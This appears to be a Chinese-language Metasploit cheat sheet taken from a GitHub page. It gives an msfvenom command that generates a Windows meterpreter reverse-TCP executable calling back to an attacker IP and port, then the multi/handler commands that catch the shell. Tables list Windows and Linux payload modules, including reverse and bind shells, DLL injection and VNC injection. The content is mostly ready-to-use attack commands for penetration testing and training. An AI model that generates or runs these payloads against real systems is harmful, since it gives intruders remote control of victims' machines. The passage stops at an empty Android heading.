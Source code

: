 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=4444 -f exe -o shell.exe
```

* 监听反弹Shell：
  
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.7
set LPORT 4444
exploit
```


#### Windows 生成 Payload 模块

| 模块名称                                       | 模块路径                                       |
| ------------------------------------------ | ------------------------------------------ |
| 生成 Windows Meterpreter 反向 TCP Shell    | `payload/windows/meterpreter/reverse_tcp`  |
| 生成 Windows Meterpreter 绑定 TCP Shell    | `payload/windows/meterpreter/bind_tcp`     |
| 生成 Windows 普通反向 Shell                | `payload/windows/shell/reverse_tcp`        |
| 生成 Windows 普通绑定 Shell                | `payload/windows/shell/bind_tcp`           |
| 生成 Windows Staged Meterpreter 反向 HTTPS | `payload/windows/meterpreter/reverse_https`|
| 生成 Windows Staged Meterpreter 反向 HTTP  | `payload/windows/meterpreter/reverse_http` |
| 生成 Windows Powershell Meterpreter        | `payload/windows/powershell_reverse_tcp`   |
| 生成 Windows DLL 注入 Payload              | `payload/windows/dllinject/reverse_tcp`    |
| 生成 Windows VNC 注入 Payload              | `payload/windows/vncinject/reverse_tcp`    |

#### Linux 生成 Payload 模块

| 模块名称                                       | 模块路径                                       |
| ------------------------------------------ | ------------------------------------------ |
| 生成 Linux Meterpreter 反向 TCP Shell      | `payload/linux/meterpreter/reverse_tcp`    |
| 生成 Linux 普通反向 Shell                  | `payload/linux/shell/reverse_tcp`          |
| 生成 Linux 普通绑定 Shell                  | `payload/linux/shell/bind_tcp`             |
| 生成 Linux Meterpreter 反向 HTTPS Shell    | `payload/linux/meterpreter/reverse_https`  |
| 生成 Linux Meterpreter 绑定 TCP Shell      | `payload/linux/meterpreter/bind_tcp`       |
| 生成 Linux ELF 文件 Payload                | `payload/linux/x64/meterpreter/reverse_tcp`|
| 生成 Linux RFI Payload                     | `payload/linux/http/meterpreter/reverse_tcp`|
| 生成 Linux Python Meterpreter              | `payload/linux/meterpreter/python/reverse_tcp`|

#### Android 生成 Payload 模块
